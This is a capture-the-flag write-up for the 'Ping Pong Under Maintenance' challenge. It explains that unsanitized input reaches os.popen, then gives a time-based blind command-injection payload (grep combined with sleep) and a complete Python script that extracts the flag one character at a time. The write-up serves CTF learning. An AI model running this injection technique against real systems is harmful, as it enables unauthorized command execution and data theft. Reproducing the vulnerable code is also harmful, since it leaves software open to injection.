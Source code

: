 ## Write Up For Ping Pong Under Maintenance

First check what the difference between
Ping Pong and Ping Pong Under maintenance

### Ping Pong
```py
return render_template('index.html', output=output)
```

### Ping Pong Under maintenance
```py
return render_template('index.html', output='The service is currently under maintainence and we have disabled outbound connections as a result.')
```

Notice that the only difference between the two is that Ping Pong Under
maintenance won't output what the command does

However, the program will still excute the command as seen in these lines

```py
hostname = request.form['hostname']
cmd = "ping -c 3 " + hostname
output = os.popen(cmd).read()
```

This means command injection is still viable
but there must be some other way to get flag information

After a lot of thinking, testing, and failing
I finally found a timing attack

If it is possible to check whether some substring exists in the flag file
then use that change the website reponse time depending on true or false then it would be possible to brute force each character till the flag is found

### The Payload

```bash
grep LITCTF{text flag.txt || sleep $?
```

Using this command can check if some prefix starting with LITCTF{ is in the flag file

$? returns 1 if the text grepped is in the file and 0 if it is not

Testing this command out, a proper prefix such as LITCTF causes the website to respond almost instantly;
however, a string such at ASHJFJSHD would cause the website to take over a second to load

Now that a working explot is found, 
the prefix of the flag can be tested one character at a time


And here is a simple python program to find the flag one char at a time

### Python Script

```py
import requests
import string

#allowed characters in flag
charlist = string.ascii_lowercase+string.digits+"_}"

#known prefix
flag = "LITCTF{"


#changes with every instance
url = 'http://34.130.180.82:59880/'

#headers for POST request
headers = {
    'Host': url,
}


#payload
data = {
    'hostname': 'temp',
}

#loops till we get the flag
while True:
    #correct next character
    bestchr = " "

    #testing each character
    for x in charlist:
        #test prefix
        teststr = flag+x
        #payload
        injection = f";grep -q {teststr} flag.txt || sleep $(($?*1))"
        data = {'hostname': injection}
        #sending request
        req = requests.post(url, headers=headers, data=data)
        #check how long it took
        if req.elapsed.total_seconds() < 1:
            #found the correct char
            bestchr = x
            break
    
    #appending char to flag
    flag+=bestchr
    #prints flag everytime we find the next char
    print(flag)
    #exits ones flag is found
    if(bestchr == '}'): break

```

After a while of using this program
I was able to retrieve the flag

### LITCTF{c4refu1_fr}


# YOUR DID IT :D
